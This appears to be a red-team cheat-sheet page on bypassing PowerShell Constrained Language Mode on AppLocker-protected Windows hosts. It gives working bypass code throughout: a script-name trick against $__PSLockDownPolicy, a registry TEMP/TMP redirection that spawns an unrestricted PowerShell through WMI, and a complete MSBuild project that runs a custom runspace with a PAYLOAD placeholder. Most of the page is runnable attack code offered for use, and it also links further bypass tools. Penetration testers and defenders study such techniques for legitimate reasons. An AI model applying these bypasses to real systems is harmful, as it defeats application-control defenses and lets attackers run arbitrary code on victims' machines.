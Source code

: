 ```yaml
---
title: CLM
---
```


When AppLocker is enabled *Constrained Language Mode* is activated in PowerShell.

Check if CLM is enabled.

~~~ powershell
$ExecutionContext.SessionState.LanguageMode
~~~

Evade CLM if enabled trough the `$__PSLockDownPolicy` environment variable ([source](http://web.archive.org/web/20220929061634/https://www.blackhillsinfosec.com/constrained-language-mode-bypass-when-pslockdownpolicy-is-used/)).

~~~ ps1
$__PSLockDownPolicy
echo 'echo $ExecutionContext.SessionState.LanguageMode;PAYLOAD' > .\system32.ps1
.\system32.ps1
~~~

If AppLocker allows script execution from a writable directory, CLM can be bypassed by modifying the `%TEMP%` and `%TMP%` environment variables ([source](https://web.archive.org/web/20230326030856/https://oddvar.moe/2018/10/06/temporary-constrained-language-mode-in-applocker/)).
In the example AppLocker allows script execution from `C:\Windows\Temp`.

~~~ ps1
$orgtemp = $env:temp
$orgtmp = $env:tmp
$newtmp = 'C:\Windows\Temp'

Set-ItemProperty -Path 'HKCU:\Environment' -Name Tmp -Value $newtmp
Set-ItemProperty -Path 'HKCU:\Environment' -Name Temp -Value $newtmp

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList powershell.exe

sleep 1

Set-ItemProperty -Path 'HKCU:\Environment' -Name Tmp -Value $orgtmp
Set-ItemProperty -Path 'HKCU:\Environment' -Name Temp -Value $orgtemp
~~~

CLM does not apply to custom runspaces.
You can create a runspace if you can get an executable or DLL past AppLocker ([source](http://web.archive.org/web/20221123103200/https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/)).

~~~ ps1
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe .\runspace.csproj
~~~

`./runspace.csproj` ([source](https://github.com/minatotw/clmbypassblogpost/)):

~~~ xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
    <MSBuildTest/>
  </Target>
  <UsingTask TaskName="MSBuildTest" TaskFactory="CodeTaskFactory" AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll">
    <Task>
      <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[
          using System;
          using System.Linq;
          using System.Management.Automation;
          using System.Management.Automation.Runspaces;
          using Microsoft.Build.Framework;
          using Microsoft.Build.Utilities;

          public class MSBuildTest : Task, ITask {
            public override bool Execute() {
              using (var runspace = RunspaceFactory.CreateRunspace()) {
                using (var posh = PowerShell.Create()) {
                  runspace.Open();
                  posh.Runspace = runspace;
                  posh.AddScript("$ExecutionContext.SessionState.LanguageMode;PAYLOAD");
                  var results = posh.Invoke();
                  var output = string.Join(Environment.NewLine, results.Select(r => r.ToString()).ToArray());
                  Console.WriteLine(output);
                }
              }
              return true;
            }
          }
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
~~~

Other tools:

- [PowerShdll](https://github.com/p3nt4/powershdll), DLL that starts PowerShell in custom runspace

References:

- [Bypass-CLM.ps1](https://github.com/mgeeky/Penetration-Testing-Tools/tree/master/red-teaming/Bypass-ConstrainedLanguageMode), bypass CLM via COM
